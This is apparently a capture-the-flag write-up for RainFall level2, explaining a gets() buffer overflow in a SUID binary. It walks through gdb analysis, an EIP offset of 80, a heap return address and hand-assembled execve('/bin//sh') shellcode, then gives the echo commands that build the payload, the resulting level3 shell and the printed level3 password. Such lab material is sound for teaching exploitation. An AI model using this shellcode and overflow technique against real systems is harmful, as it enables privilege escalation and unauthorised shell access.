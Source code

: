 # Level 2

## Vulnerability

Buffer overflow

## Context

We find a binary with owner ```level3``` and SUID.
```
level2@RainFall:~$ ls -l
-rwsr-s---+ 1 level3 users 5403 Mar  6  2016 level2
```

## Solution

Running the binary, it seems to read from stdin, and print what is given.
```
level2@RainFall:~$ ./level2
oh hi
oh hi
```
We get some weird output with longer input, then after a certain length it segfaults.
```
level2@RainFall:~$ ./level2
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaJaaaaaaa
level2@RainFall:~$ ./level2
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaJaaaaaaaa
Segmentation fault (core dumped)
```
When we inspect with gdb we find main calls function ```p```. Function ```p``` includes a call to ```gets()``` which is vulnerable to buffer overflow.
```
level2@RainFall:~$ gdb -q level2
...
(gdb) disas main
...
   0x08048545 <+6>:	call   0x80484d4 <p>
...
(gdb) disas p
...
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
...
```
Using the following example with [this EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/), we find the EIP offset is 80.
```
level2@RainFall:~$ gdb -q level2
...
(gdb) run
Starting program: /home/user/level2/level2
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
This menas we can write our malicious code in the stdin, followed by garbage until the buffer overflows and we reach 80 characters, where the return address can be overwritten.

However, this buffer is stored on the stack, unfortunately function ```p``` checks to make sure the return address isn't in the stack.
```
(gdb) disas p
...
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
...
```
This prevents us from overwriting the return address with and address in the stack, or an environment variable.

However, we could use the heap. ltrace shows the buffer is later copied with strdup. strdup uses malloc which uses the heap.
```
level2@RainFall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff7a4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                          = 0
gets(0xbffff6ac, 0, 0, 0xb7e5ec73, 0x80482b5 oh hi!
)               = 0xbffff6ac
puts(" oh hi!" oh hi!
)                                             = 8
strdup(" oh hi!")                                           = 0x0804a008
+++ exited (status 8) +++
```
ltrace also shows us strdup always uses the address ```0x804a008```, this indicates no ASLR (Address Space Layout Randomization).

So let's try to write our malicious shellcode in the heap by writing it in the input prompt. Then write the strdup malloc address on the return address.

Our malicious shellcode simply needs to open a new shell. We find the unix syscall for execve is 11.
```
level2@RainFall:~$ cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep "execve"
#define __NR_execve		 11
```
Let's create the assembly code to do this, and break it down into bytecode.
```
+----------------+-----------------------+-----------------------+----------------------------------------------+
| Bytecode       | (Intermediate)        | Assembly              | Comments                                     |
+----------------+-----------------------+-----------------------+----------------------------------------------+
| 31 d2          | xor    edx,edx        | xor   edx, edx        | execve 3rd parameter = envp, NULL            |
| 31 c9          | xor    ecx,ecx        | xor   ecx, ecx        | execve 2nd parameter = argv, NULL            |
| 51             | push   ecx            | push  ecx             |                                              |
| 68 2f 2f 73 68 | push   0x68732f2f     | push  '//sh'          | after 3rd push instruction, stack contains:  |
| 68 2f 62 69 6e | push   0x6e69622f     | push  '/bin'          | db '/bin//sh',0,0,0,0                        |
| 31 c0          | xor    eax,eax        | xor   eax, eax        |                                              |
| b0 0b          | mov    al,0xb         | mov   al, 11          | execve syscall                               |
| 89 e3          | mov    ebx,esp        | mov   ebx, esp        | execve 1st parameter = executable (on stack) |
| 83 e4 f0       | and    esp,0xfffffff0 | and   esp, 0xfffffff0 | align stack                                  |
| cd 80          | int    0x80           | int   0x80            | syscall                                      |
+----------------+-----------------------+-----------------------+----------------------------------------------+
```
Lets create our exploit file, starting with our malicious shellcode, adding backslash ```\x``` to write as bytes.
```
level2@RainFall:~$ echo -e -n "\x31\xd2\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x31\xc0\xb0\x0b\x89\xe3\x83\xe4\xf0\xcd\x80" > /tmp/level2_exploit
```
We earlier found the EIP offset is 80, we overflow the gets() buffer with whatever garbage until we reach 80 characters total.
```
level2@RainFall:~$ echo -e -n "------------------------------------------------------" >> /tmp/level2_exploit
```
Finally overwrite the return address with the address of our malicious shellcode, now in the heap.
```
level2@RainFall:~$ echo -e -n "\x08\xa0\x04\x08" >> /tmp/level2_exploit
```
Pipe the exploit file into ./level2 stdin. This opens a shell as user ```level3```, where we can cat the level3 password.
```
level2@RainFall:~$ cat /tmp/level2_exploit - | ./level2
[press enter]
...
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
